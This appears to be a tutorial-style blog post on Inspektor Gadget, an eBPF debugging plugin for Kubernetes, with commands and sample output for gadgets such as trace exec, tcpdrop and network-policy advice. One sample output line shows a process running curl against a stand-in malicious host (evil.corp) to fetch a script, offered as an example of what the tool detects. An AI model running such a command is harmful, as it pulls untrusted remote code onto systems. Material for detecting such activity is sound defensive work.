

Debugging elusive low-level failures in Kubernetes (such as mysterious TCP drops, DNS lookup failures, silent process crashes, or file capability violations) typically requires logging onto worker nodes via SSH and running `tcpdump`, `strace`, or `perf`. In secure, immutable production clusters, host SSH is disabled.

**Inspektor Gadget** (a CNCF Sandbox project originated by Kinvolk/Microsoft) packages a comprehensive suite of **eBPF-powered debugging gadgets** into an intuitive `kubectl` plugin and DaemonSet.

Inspektor Gadget gives developers deep kernel visibility directly from the Kubernetes API, enriching kernel events with Pod, Container, and Namespace metadata with zero overhead.



## The Top 5 Debugging Gadgets

### 1. `trace exec`: Watch Every Process Launched in Real Time
Catch rogue scripts or unexpected container processes executing inside a namespace:

```bash
kubectl gadget trace exec --namespace production
```

Sample output:
```text
NODE       NAMESPACE   POD            CONTAINER   PID    PPID   COMM   ARGS
worker-01  production  order-api-x1   app         23412  23400  curl   curl https://evil.corp/script.sh
```

### 2. `trace tcpdrop`: Pinpoint Why Connections Are Being Dropped
Diagnose intermittent network timeouts and TCP resets:

```bash
kubectl gadget trace tcpdrop --namespace default
```

Sample output reveals the exact kernel reason for the drop (e.g. `TCP_CLOSE`, `NETFILTER_DROP`, `STATE_INVALID`):
```text
NODE       NAMESPACE  POD          SRC              DST              STATE       REASON
worker-02  default    payment-api  10.244.1.4:4312  10.244.2.8:8080  ESTABLISHED NETFILTER_DROP
```

### 3. `trace open`: Detect Filesystem Access & Missing Configs
See exactly which file a crashing binary attempted to open before terminating:

```bash
kubectl gadget trace open --namespace billing --pod billing-app-79b8f
```

Instantly identifies missing license keys or misconfigured `/etc/config` paths:
```text
COMM    FD  ERR  PATH
billing -1  ENOENT  /etc/secrets/private.key
```

### 4. `top block-io`: Identify Disk I/O Noisy Neighbors
Find which container is saturating node NVMe throughput:

```bash
kubectl gadget top block-io
```

Ranks containers by read/write bytes per second and total operations.

### 5. `advise network-policy`: Automatically Generate NetworkPolicies
Inspektor Gadget can monitor traffic flowing into and out of a pod for 1 hour, and automatically emit a ready-to-use, minimal `NetworkPolicy` manifest:

```bash
# 1. Start monitoring the pod
kubectl gadget advise network-policy monitor --namespace staging --pod web-frontend-7f89b

# 2. Stop monitor and emit generated NetworkPolicy YAML!
kubectl gadget advise network-policy report --namespace staging --pod web-frontend-7f89b
```

## Installing Inspektor Gadget

Deploy the plugin and in-cluster components via `krew`:

```bash
# Install via krew
kubectl krew install gadget

# Deploy DaemonSet to cluster
kubectl gadget deploy
```

Verify that the DaemonSet is running across every node:

```bash
kubectl gadget status
```

## Why Inspektor Gadget is Superior to strace in Production

- **Zero Performance Hit:** `strace` halts execution on every system call, often slowing applications down by 10x to 50x (making it dangerous in production). Inspektor Gadget uses asynchronous eBPF ring buffers in the kernel, adding virtually zero latency.
- **No Container Modification:** No need to install `gdb`, `curl`, or debugging tools into minimal, scratch, or distroless images.
- **Enriched Kubernetes Context:** Kernel events are automatically mapped back to pod names, labels, and namespaces.

